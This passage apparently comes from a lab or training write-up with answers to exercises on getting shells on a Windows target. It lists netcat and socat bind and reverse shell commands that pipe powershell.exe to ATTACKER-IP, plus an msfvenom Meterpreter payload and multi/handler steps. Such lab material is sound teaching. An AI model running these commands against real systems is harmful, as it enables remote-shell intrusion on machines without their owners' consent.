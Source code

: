 ```

**9. Experiment with netcat and socat to obtain bind and reverse shells on the Windows box**

**Bind shells**

Attacker:

`socat TCP:<TARGET-IP>:<PORT> -`

`nc <TARGET-IP> <PORT`

Target:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

`nc -lnvp <PORT> -e powershell.exe`

**Reverse shells**

Atacker:

```socat TCP-L:<PORT> -```

`nc -lnvp 8008`

Target:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:powershell.exe,pipes`

`nc <ATTACKER-IP> <PORT> -e powershell.exe`

**10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows 
Target. Activate the shell and catch it with multi/handler. Experiment with the features of 
this shell.**

`msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o shell.exe LHOST=<ATTACKER-IP> LPORT=<PORT>`

Upload payload and webshell to box

Start msfconsole and run `use multi/handler`

Set LHOST and LPORT options to attacker ip and port

run `exploit` to start multi/handler 

Execute payload through webshell

Catch reverse shell with multi/handler

**11. Create both staged and stageless meterpreter shells for either target. Upload and 
manually activate them, catching the shell with netcat -- does this work?**

No, meterpreter shells can only be caught with multi/handler
